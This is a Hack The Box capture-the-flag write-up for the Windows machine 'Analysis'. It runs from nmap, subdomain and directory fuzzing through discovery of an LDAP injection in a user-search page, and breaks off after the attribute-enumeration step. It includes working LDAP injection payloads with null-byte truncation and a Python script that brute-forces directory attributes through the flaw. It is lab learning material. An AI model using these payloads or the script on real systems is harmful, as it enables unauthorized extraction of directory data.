







# HTB Machine Writeup: Analysis
### By: gnos1s

## Machine Difficulty: Hard
## Operating System: Windows
## Release Date: 20 Jan 2024

## Enumeration

As usual, we start off with our Nmap scan:

```
$ nmap -sC -sV -oA nmap/analysis 10.10.11.250
# Nmap 7.94SVN scan initiated Sat Jan 20 21:03:25 2024 as: nmap -sC -sV -oA nmap/analysis 10.10.11.250
Nmap scan report for 10.10.11.250
Host is up (0.067s latency).
Not shown: 987 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-21 02:03:33Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3306/tcp open  mysql         MySQL (unauthorized)
Service Info: Host: DC-ANALYSIS; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-01-21T02:03:39
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 20 21:03:56 2024 -- 1 IP address (1 host up) scanned in 31.21 seconds
```

We can see a bunch of standard Windows ports open; this looks like a Domain Controller. Nmap reveals the domain "analysis.htb", so let's add that into our hosts file:

```
$ echo "10.10.11.250 analysis.htb" >> /etc/hosts
```

We can try SMB null authentication, but it doesn't work:

```
$ smbclient -N -L //analysis.htb                                 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to analysis.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

"Successful" but we can't see or connect to shares. The one other interesting thing from Nmap is the site on port 80. Let's try visiting it:



10.10.11.250 gives a 404, but analysis.htb gives a page:


This site looks static, and none of the links lead anywhere. Let's try a subdomain fuzz.

There's actually a nice little trick you can do with Gobuster to speed up subdomain fuzzing if the target has DNS running. The Gobuster "dns" option is a lot faster than a typical vhost fuzz. I'm not quite sure how this works, but here is the command:

```
$ gobuster dns -d analysis.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -r 10.10.11.250:53
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     analysis.htb
[+] Threads:    10
[+] Resolver:   10.10.11.250:53
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: www.analysis.htb
Found: internal.analysis.htb
Found: gc._msdcs.analysis.htb
Found: domaindnszones.analysis.htb
```

It found all four of those subdomains in less than 10 seconds; a vhost scan took me a lot longer. Just a handy trick in case you guys run into something similar in the future.

After adding all of these to our hosts file, we can try visiting all of them. I won't show all of the pictures here, but all of them either give a 403 or 404 when I visit the homepage.

Next, I tried fuzzing for directories. internal.analysis.htb does show a few:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://internal.analysis.htb/ 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://internal.analysis.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/users                (Status: 301) [Size: 170] [--> http://internal.analysis.htb/users/]           
/.                    (Status: 403) [Size: 1268]
/dashboard            (Status: 301) [Size: 174] [--> http://internal.analysis.htb/dashboard/]                
/Users                (Status: 301) [Size: 170] [--> http://internal.analysis.htb/Users/]
/employees            (Status: 301) [Size: 174] [--> http://internal.analysis.htb/employees/]     
```

When we try to curl one of those, we get a 404:

```
$ curl http://internal.analysis.htb/users/                 
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1"/>
<title>404 - Fichier ou r�pertoire introuvable.</title>

-snip-

</html>
```

I was stuck here for a while, and eventually I tried fuzzing for file extensions as well. I started with .asp and .aspx, got nothing. Next, I tried .php, and we do get some:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x .php -u http://internal.analysis.htb/employees/
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://internal.analysis.htb/employees/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 1085]
/Login.php            (Status: 200) [Size: 1085]
```

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x .php -u http://internal.analysis.htb/users/
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://internal.analysis.htb/users/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/list.php             (Status: 200) [Size: 17]
/List.php             (Status: 200) [Size: 17]
```

/employees/login.php is just a login page, but we don't have creds for it. /users/list.php is interesting though. When we try to access it, we get "Missing Parameter":

```
$ curl http://internal.analysis.htb/users/list.php         
missing parameter
```

I tried a parameter fuzzing scan next, and we get a parameter called ```name```:

```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://internal.analysis.htb/users/list.php?FUZZ=key -fs 17

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://internal.analysis.htb/users/list.php?FUZZ=key
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 17
________________________________________________

name                    [Status: 200, Size: 406, Words: 11, Lines: 1, Duration: 66ms]
```

When we try to access that, we get an HTML table:

```
$ curl http://internal.analysis.htb/users/list.php?name=key
<h2>Search result</h2></br><table border = "1"><tr bgcolor="#cccccc"><td>Username</td><td>Last Name</td><td>First Name</td><td>Company</td><td>Department</td><td>Office Phone</td><td>Fax</td><td>Mobile</td><td>DDI</td><td>E-Mail Address</td><td>Home Phone</td></tr><tr><td><strong>CONTACT_</strong></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td></tr></table>  
```

When we try to open this in the browser, we don't seem to get any results back. It's just one field "CONTACT_", which comes back no matter what we enter:



The title does reveal that this is a "search result". Let's try fuzzing for some special characters:

```
$ ffuf -w /usr/share/seclists/Fuzzing/special-chars.txt -u http://internal.analysis.htb/users/list.php?name=FUZZ -fs 17,406

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://internal.analysis.htb/users/list.php?name=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/special-chars.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 17,406
________________________________________________

(                       [Status: 200, Size: 8, Words: 1, Lines: 1, Duration: 79ms]
)                       [Status: 200, Size: 8, Words: 1, Lines: 1, Duration: 94ms]
\                       [Status: 200, Size: 8, Words: 1, Lines: 1, Duration: 394ms]
*                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 394ms]
```

Some weird results here. Some give size 8, and some give sizes 418.

With "(", ")", and "\\", the server just returns size 8, which appears to be nothing:

```
$ curl 'http://internal.analysis.htb/users/list.php?name=)'
</table>   
```

The interesting one is the '\*' though. It gives some data:



"technician" seems to be a user, and I'm guessing perhaps the '\*' character matched everything (acting as a wildcard), so we got results back.

After some research into these characters, this looks like a LDAP query. Now, we're gonna have to work out how to exploit this with LDAP injection. IppSec's video on the CTF box helped me out a LOT here, so if I can't explain it clearly, I would recommend you go watch his video.

So LDAP queries look quite weird, a standard one would be like this:

```
&(
	(param1=value1)
	(param2=value2)
)
```

so the "&" character in the front means "and". In this case, the ldap query is simply saying "return results when param1 is equal to value1, AND, param2 is equal to value2".

The query on Analysis probably looks something like this:

```
&(
	(name=[your_input])
)
```

So when I enter the wildcard, it matches everything and gives me the technician user.

The way you can exploit this is by entering additional fields for information disclosure. The first thing we have to check is how "deep" the query goes, or how many brackets we need to escape.

To do this, we can enter our payload and put a null byte at the end. The null byte acts as a string terminator and will end the query. So let's put one bracket and try:

```
Payload: /users/list.php?name=technician)%00
```


We get nothing. Let's try two brackets:

```
Payload: /users/list.php?name=technician))%00
```


This time, we do get a result back. We can tell the query is 2 brackets deep.

Now, we can try injecting in additional fields to see if they exist. The "CN" field is always present on AD LDAP servers, so we can try that first:

```
Payload: /users/list.php?name=technician)(CN=*))%00

NOTE: After this payload, the query will look something like this:

&(
	(name=technician)
	(CN=*)
)
%00
--- last bit of query we took out with null byte ---

So if the CN field exists, it will work and give us results back. If the CN field doesn't exist, there will be an erro in our query and we will get nothing back.
```

Here are the results:



So now we know that the CN field exists. In other words, we can keep putting in other fields into here to bruteforce all available fields. After that, we can use a wildcard to extract the value of those fields.

For example, if we entered a dummy field that doesn't exist, we'll get nothing:

```
Payload: /users/list.php?name=technician)(DoesNotExist=*))%00
```


We get nothing. But if the field DOES exist, we will get something, like we saw in the CN parameter earlier. So that's how we're gonna differentiate between a field *existing* and *not existing*.

I wrote a simple Python script to do this, here is the code:

```python
import string
import requests

paramlist = "/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt"
url = "http://internal.analysis.htb/users/list.php?name=technician)(FUZZ=*))%00"

file = open(paramlist, 'r')
lines = file.readlines()

count = 0
for line in lines:
    if count % 100 == 0:
        print("Count: " + str(count))
    
    # strip newline
    param = line.strip()
    
    payload = url.replace("FUZZ", param)
    res = requests.get(payload)

    if len(res.text) != 406:
        print("   Param: " + param)
    count += 1

```
